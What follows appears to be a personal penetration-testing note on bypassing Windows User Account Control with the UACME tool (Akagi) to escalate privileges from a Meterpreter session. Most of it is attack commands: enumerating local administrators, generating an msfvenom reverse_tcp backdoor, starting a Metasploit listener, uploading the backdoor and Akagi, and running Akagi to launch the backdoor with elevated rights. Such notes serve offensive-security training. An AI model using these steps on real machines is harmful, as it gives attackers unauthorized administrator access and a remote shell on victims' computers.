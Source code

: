 
User Account Control, related to [[Privilege Escalation]]

It's a very efficient privilege scalation vector.

We will need a user that is part of the local windows administrators

https://github.com/hfiref0x/UACME

We can check the admin groups:

``` bash
net localgroup administrators
```

The UAC by default isnt on the highest setting,we can change it with the UAC panel.

Once we have an initial session we can search processes using

``` bash
pgrep [name]
```

For example if we want to use a x64 architecture we can use

``` bash
pgrep explorer
migrate [STDOUT of previous]
```

We can see who we are and our pivileges with 

``` bash
getuid
getprivs
```

Then we can use 

``` bash
shell
```

To spawn a shell and with

``` bash
net user
```

enumerate all users

Once we verify we are part of local administrators we need to bypass UAC because we cannot click the consent form from a shell

We can use either Akagi32 or Akagi64 depending on our architecture

We also need to setup a msfvenom payload

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[lIP] LPORT=[lPORT] -f exe > [outputfilename].exe
```

Then in [[Metasploit]]

``` bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOSTS [lIP]
set LPORT [lPORT]
run
```

To start the listener.

Then back at the meterpreter session:

``` bash
cd C:\\
mkdir Temp
cd Temp
upload backdoor.exe
upload /root/Desktop/tools/UACME/Akagi[v].exe
shell
.\Akagi[v].exe [Key (23)] [backdoorpath (C:\Temp\backdoor.exe)]
```

